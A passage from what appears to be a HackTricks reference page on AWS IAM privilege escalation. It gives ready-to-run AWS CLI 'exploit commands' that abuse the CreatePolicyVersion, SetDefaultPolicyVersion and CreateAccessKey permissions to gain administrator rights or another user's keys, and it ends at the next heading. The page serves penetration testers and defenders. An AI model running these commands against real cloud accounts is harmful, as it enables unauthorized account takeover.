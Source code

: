 # AWS - IAM Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## IAM

For more info about IAM check:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### **`iam:CreatePolicyVersion`**

Grants the ability to create a new IAM policy version, bypassing the need for `iam:SetDefaultPolicyVersion` permission by using the `--set-as-default` flag. This enables defining custom permissions.

**Exploit Command:**

```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
    --policy-document file:///path/to/administrator/policy.json --set-as-default
```

**Impact:** Directly escalates privileges by allowing any action on any resource.

### **`iam:SetDefaultPolicyVersion`**

Allows changing the default version of an IAM policy to another existing version, potentially escalating privileges if the new version has more permissions.

**Bash Command:**

```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```

**Impact:** Indirect privilege escalation by enabling more permissions.

### **`iam:CreateAccessKey`**

Enables creating access key ID and secret access key for another user, leading to potential privilege escalation.

**Exploit:**

```bash
aws iam create-access-key --user-name <target_user>
```

**Impact:** Direct privilege escalation by assuming another user's extended permissions.

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**
